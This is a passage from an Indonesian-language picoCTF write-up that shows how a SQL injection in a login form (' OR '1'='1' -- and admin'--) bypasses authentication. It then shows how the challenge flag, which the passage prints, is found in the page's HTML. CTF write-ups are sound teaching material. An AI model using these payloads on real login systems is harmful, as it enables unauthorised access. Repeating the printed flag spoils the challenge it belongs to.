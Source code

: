 ### Step 3: SQL Injection Testing
- Mencoba payload SQL injection klasik
- Testing dengan payload: `' OR '1'='1' --`
- Dari screenshot terlihat query SQL yang dieksekusi:
- 
<img width="1918" height="1078" alt="step3" src="https://github.com/user-attachments/assets/3ec38f76-d08e-4eb6-aa21-6e8f4da17f38" />

```sql
SELECT * FROM users WHERE name='' OR '1'='1' -- AND password=''
```


---

### Step 4: Successful Authentication Bypass
- Login berhasil dengan payload SQL injection
- Aplikasi menampilkan pesan: "Logged in! But can you see the flag, it is in plainsight."
- Flag tersembunyi di dalam HTML source code


<img width="1918" height="1078" alt="berhasil" src="https://github.com/user-attachments/assets/f09012fb-aed1-42f4-a67f-97502043593a" />

---

### Step 5: Flag Discovery
- Menggunakan Developer Tools untuk inspect HTML source
- Flag ditemukan dalam HTML comment atau hidden element
- Dari screenshot terlihat flag: `picoCTF{L00k5_l1k3_y0u_solv3d_1t_d3c660ac}`

### Flag yang ditemukan:
```
picoCTF{L00k5_l1k3_y0u_solv3d_1t_d3c660ac}
```

---

## 4. Payload yang Berhasil
```sql
Username: ' OR '1'='1' --
Password: (any value)
```

Alternative payload:
```sql
Username: admin'--
Password: (any value)
```

---

## 5. Penjelasan Teknis
